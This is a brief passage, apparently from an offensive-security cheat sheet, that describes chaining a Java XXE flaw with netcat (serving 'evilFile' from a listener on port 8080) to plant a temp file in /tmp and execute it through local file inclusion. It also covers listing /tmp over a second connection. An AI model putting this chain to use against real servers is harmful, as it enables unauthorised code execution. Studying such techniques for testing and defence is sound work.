 To upload a file using XXE with Java, upload the xxe.xml file to the vulnerable server, but don't close the connection. This can be done using nc as shown below. Until the connection closes, it will be stored as a temp file in /tmp. Use an LFI to execute the file.

nc -nlvp 8080 < evilFile

If you need to get the tmp file name that the upload is being stored as, use a second connection to send the contents of the /tmp directory.
